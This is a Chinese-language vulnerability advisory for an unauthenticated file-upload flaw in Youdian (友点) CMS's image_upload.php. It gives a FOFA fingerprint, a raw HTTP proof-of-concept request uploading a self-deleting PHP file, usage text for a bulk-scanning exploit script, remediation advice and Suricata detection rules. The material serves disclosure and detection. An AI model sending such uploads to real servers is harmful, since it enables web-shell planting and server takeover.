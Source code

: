 ### 产品简介  
友点CMS是一款高效且灵活的网站管理系统，它为用户提供了简单易用的界面和丰富的功能。无论是企业还是个人，都能通过友点CMS快速搭建出专业且美观的网站。该系统支持多种内容类型和自定义模板，方便用户按需调整。同时，它具备强大的SEO功能，能提升网站在搜索引擎中的排名。友点CMS还支持多语言设置，适应国际化需求。总的来说，友点CMS是网站建设的理想选择，既高效又易用。  

### 漏洞概述  
友点CMS建站系统image_upload.php 接口处存在文件上传漏洞，恶意攻击者可能会利用此漏洞上传恶意文件，从而获取服务器权限。  

### 指纹识别  
fofa: app="友点建站-CMS"  

### 漏洞利用  
```
poc:
POST /Public/ckeditor/plugins/multiimage/dialogs/image_upload.php HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarydAPjrmyKewWuf59H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
  
------WebKitFormBoundarydAPjrmyKewWuf59H
Content-Disposition: form-data; name="files"; filename="ceshi.php"
Content-Type: image/jpg
  
<?php echo md5('666');unlink(__FILE__);?>
------WebKitFormBoundarydAPjrmyKewWuf59H--
```


### 测试和利用脚本  
```
python3 Friendly_CMS_uploadVul.py -h                     
usage: Friendly_CMS_uploadVul.py [-h] [-t] [-r FILE] [-u URL]

### Friendly CMS image_upload.php file upload vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Friendly_CMS_uploadVul.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Friendly_CMS_uploadVul.py -u
                        http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"Friendly CMS image_upload.php file upload vulnerability"; flow:established,to_server; flowbits:set,Friendly_CMS_uploadVul; content:"post";http_method;nocase; content:"/Public/ckeditor/plugins/multiimage/dialogs/image_upload.php";http_uri;fast_pattern;nocase; content:"Content-Type: multipart/form-data";http_header;nocase; content:"filename";nocase;http_client_body; content:"<?php";nocase;http_client_body;distance:0; pcre:"/filename.*\.php/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E5%8F%8B%E7%82%B9CMS/Youdian_CMD_uploadfile; classtype:web-rce; metadata:created_at 2024-03-22,updated_at 2024-03-22,creater:YUUKI4O4; sid:XX; rev:1;)
alert http any any -> any any (msg:"Friendly CMS image_upload.php file upload vulnerability success"; flow:established,from_server; flowbits:isset,Friendly_CMS_uploadVul; content:"200";http_stat_code; content:"result";http_server_body;nocase; content:"imgurl";distance:0;http_server_body;nocase; pcre:"/\{\"result\"\s*:\s*\"200\".*imgurl.*\.php/Qi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E5%8F%8B%E7%82%B9CMS/Youdian_CMD_uploadfile; classtype:web-rce; metadata:created_at 2024-03-22,updated_at 2024-03-22,creater:YUUKI4O4; sid:XX; rev:1;)
```
